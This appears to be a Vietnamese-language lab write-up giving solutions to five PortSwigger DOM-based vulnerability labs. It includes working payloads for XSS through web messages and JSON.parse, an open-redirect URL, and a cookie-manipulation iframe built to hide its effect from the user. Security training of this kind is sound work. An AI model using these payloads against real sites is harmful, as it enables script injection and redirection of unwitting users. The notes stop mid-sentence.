







# DOM-based vulnerabilities

### 1. DOM XSS using web messages
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages

Context: Dùng hàm `addEventListener()` để lắng nghe message.

Nó sẽ lắng nghe để gắn quảng cáo vào trang web. 

Tạo 1 iframe ở server exploit, iframe này dẫn đến trang web cần exploit và có gửi thêm message, payload:

`<iframe src="https://0a3e00fa03d89772812011d8009c002a.web-security-academy.net/" onload="this.contentWindow.postMessage('','*')">`

---

### 2. DOM XSS using web messages and a JavaScript URL
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url

Context: Dùng hàm `addEventListener()` + sink: `location.href` + URL cần có `http/https`

Payload: `<iframe src="https://0a60005c0338391482ef47cf007b003b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`

---

### 3. DOM XSS using web messages and `JSON.parse`
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse

Context: `addEventListener` + message dạng JSON

Ở đây ta thấy có thêm điều kiện `type=load-channel` để có thể được gán `src` = `d.url`.

Payload: `<iframe src=https://0a9b004b04098a3c80aa857e0066000e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

---

### 4. DOM-based open redirection
https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection

Context: sink `location.href`, parameter `url` sẽ chứa đường dẫn để turn back

Payload: `https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/`

Ta đặt `url` chuyển hướng về server exploit

---

### 5. DOM-based cookie manipulation
https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

Context: code tạo cookie phía client `lastViewedProduct` để lưu trang cuối cùng đã xem 

Nhưng giá trị này sẽ lấy tất cả path phía sau và không có filter, vì thế ta sẽ chèn `'` để thoát ra và chèn thêm mã js vào. 

Payload: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">`

Iframe này dẫn đến 1 bài post và có thêm mã js, sau đó cookie sẽ lưu lại, và cũng trong iframe này, sự kiện onload ngay lập tức đưa về trang chủ để cookie không bị sửa đổi cũng như người dùng không phát hiện. Và khi người dùng tải lại trang chủ mã sẽ thực thi tự động vì page có:

Còn 2 bài expert

